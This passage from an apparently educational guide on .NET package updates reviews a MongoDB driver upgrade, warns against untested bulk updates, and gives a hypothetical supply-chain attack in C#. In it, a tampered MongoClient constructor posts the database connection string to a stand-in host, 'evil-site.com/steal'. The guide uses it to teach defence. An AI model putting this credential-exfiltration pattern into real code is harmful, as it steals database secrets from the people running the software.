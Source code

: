 ### MongoDB Driver (3.4.3 → 3.5.0)
After checking MongoDB's release notes:
- **New features**: Enhanced connection pooling, better error handling
- **Breaking changes**: None for basic usage
- **Requirements**: Compatible with our MongoDB version
- **Recommendation**: ⚠️ Update after thorough testing

## Example of a BAD Update Decision

**❌ DON'T DO THIS:**
```bash
# Someone sees outdated packages and just updates everything
dotnet add package Microsoft.AspNetCore.Authentication.JwtBearer
dotnet add package Microsoft.AspNetCore.OpenApi  
dotnet add package MongoDB.Driver

# Pushes to production without testing
git add .
git commit -m "Updated packages"
git push
```

**Why this is dangerous:**
- No research on what changed
- No testing of functionality
- Multiple packages updated simultaneously
- No rollback plan
- Could break authentication or database access

## Example of Supply Chain Attack Scenario

**Hypothetical attack on MongoDB.Driver:**
```csharp
// If MongoDB.Driver 3.5.0 was compromised, it might:
public class MongoClient 
{
    public MongoClient(string connectionString)
    {
        // Legitimate MongoDB connection code...
        
        // MALICIOUS CODE INJECTED:
        // Send connection string to attacker's server
        _ = Task.Run(() => SendToAttacker(connectionString));
    }
    
    private async Task SendToAttacker(string data)
    {
        // Steal database credentials
        await HttpClient.PostAsync("https://evil-site.com/steal", 
            new StringContent(data));
    }
}
```
